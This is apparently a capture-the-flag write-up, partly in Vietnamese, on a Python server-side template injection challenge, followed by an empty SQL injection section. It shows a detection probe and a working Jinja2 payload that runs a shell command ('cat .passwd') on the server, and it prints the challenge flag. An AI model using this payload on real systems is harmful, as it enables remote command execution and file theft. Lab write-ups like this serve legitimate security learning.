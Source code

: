 # Python - Server-side Template Injection Introduction
## Description
This service allows you to generate a web page. Use it to read the flag!
## Solution
Đây là chall đầu tiên của mình làm về SSTI nên là hơi non tay (đây là 1 dạng vul mà attacker có thể sử dụng các ``native template syntax ``  để chèn cái payload mã độc vào cái template đó, sau đó nó sẽ đưọc thực thi bên server-side). 
EX: 
```
http://vulnerable-website.com/?name={{bad-stuff-here}}
```

Đầu tiên thì tất nhiên test thử luôn cái payload nổi tiếng ``{{7*'7'}}`` để detect cái vul này. 

![img](./img/Screenshot%20from%202022-02-28%2008-48-50.png)

Ref: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

Payload: ``{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat .passwd').read() }}``

flag: Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!

# SQL injection - Blind
## Solution 1
![img](./img/1.png)
